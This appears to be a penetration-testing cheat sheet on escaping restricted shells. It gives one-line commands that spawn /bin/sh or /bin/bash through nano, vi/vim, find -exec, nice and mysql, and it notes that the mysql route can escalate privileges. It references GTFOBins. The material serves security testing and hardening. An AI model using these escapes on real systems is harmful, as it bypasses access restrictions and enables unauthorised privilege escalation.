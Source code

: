 # Binary Execution

## 01 - Editors

### 1.1 - Nano

Launch the program then run the two shortcuts.

```
$ nano
CTRL + R
CTRL + X
```

Then open the shell

```
reset; /bin/sh 1>&0 2>&0

reset; /bin/bash 1>&0 2>&0
```

### 1.2 - Vi(m)

Open the text editor program.

```
$ vim

$ vi
```

Escape restricted shell in `vim` or `vi`.

```
:!/bin/sh

:!/bin/bash
```

Escape restricted shell in `vi`. You must set a predefined `shell` variable and invoke it.

```
:set shell=/bin/sh

:set shell=/bin/bash

:shell
```

## 02 - Find Files

```
$ find / -name "<name>" -exec /bin/sh \;

$ find / -name "<name>" -exec /bin/bash \;
```

## 03 - `nice`

```
$ nice /bin/sh

$ nice /bin/bash
```

## 04 - Database Backend

### 4.1 - `mysql`

> [!NOTE]
> This could even (potentially) be a way to escalate privileges (say for instance if mysql is running as root).

```
mysql> \! /bin/sh

mysql> \! /bin/bash
```

---
## References

### GTFOBins

- [GTFOBins: Rvim](https://gtfobins.github.io/gtfobins/rvim/)

- [GTFOBins: Vim](https://gtfobins.github.io/gtfobins/vim/)

- [GTFOBins: Vi](https://gtfobins.github.io/gtfobins/vi/)

- [GTFOBins: Vimdiff](https://gtfobins.github.io/gtfobins/vimdiff/)